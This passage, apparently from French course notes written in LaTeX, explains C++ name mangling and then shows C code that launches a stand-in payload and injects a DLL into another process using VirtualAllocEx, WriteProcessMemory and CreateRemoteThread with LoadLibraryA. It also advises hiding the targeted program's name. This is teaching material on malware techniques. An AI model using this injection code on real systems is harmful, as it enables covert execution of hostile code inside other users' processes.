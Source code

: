 \documentclass{book}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\Windows}{{\sc windows}}
\begin{document}
A la ligne 5, on voit apparaître \code{"?thekey@@YAHH@Z"} qui est la version décorée de \code{"thekey"} (on parle de "mangling" dans la littérature). Le langage C++ définit la décoration pour tenir compte de la surcharge des fonctions de sorte que deux fonctions ayant le même nom mais des arguments différents soient exportées avec des noms différents. Les éléments de décoration décrivent le profil de la fonction. 

\paragraph{Se faire passer pour un autre}

On peut commencer simplement. Supposons que la "payload" soit le programme \texttt{hostname.exe}. On pourra écrire un exécutable qui lance la "payload". Evidemment, il vaudrait mieux faire en sorte de ne pas mettre en clair le nom du programme ciblé. 

\begin{verbatim}
int main(char *p, char *q){
  STARTUPINFOA si = { sizeof(si) };
  PROCESS_INFORMATION pi;
  CreateProcessA(NULL, "C:\\Windows\\System32\\hostname.exe", \
  		0, 0, FALSE, 0, 0, 0, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  CloseHandle(pi.hThread);
}
\end{verbatim}


\paragraph{Injection dans un autre exécutable}

L'idée est de faire faire par un exécutable {\tt EXE} des actions "malveillantes". Pour cela, un procédé "simple" est de faire charger par l'{\tt EXE} lui-même une DLL qui contient la charge. Afin d'y parvenir, on va avoir besoin de a) allouer de la mémoire dans un autre processus, b) modifier le contenu de ce bloc et c) lancer un thread dans {\tt EXE}. Voyons cela de plus près : 

\begin{verbatim}
...
//PID = pid de l'exe à infecter
process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
char * path = "chemin_vers_la_DLL\\Polueur.dll";
int dll_length = strlen(path);
LPVOID base_address  = VirtualAllocEx(process, NULL, dll_length, //"malloc"
                       MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);//cf doc Microsoft
SIZE_T N;
WriteProcessMemory(process, base_address, path, dll_length, & N); //"memcpy"
CreateRemoteThread(process, NULL,0,(LPTHREAD_START_ROUTINE)LoadLibraryA, 
                                                  base_address, 0, NULL);
 //attendre un petit peu
 \end{verbatim}
\end{document}
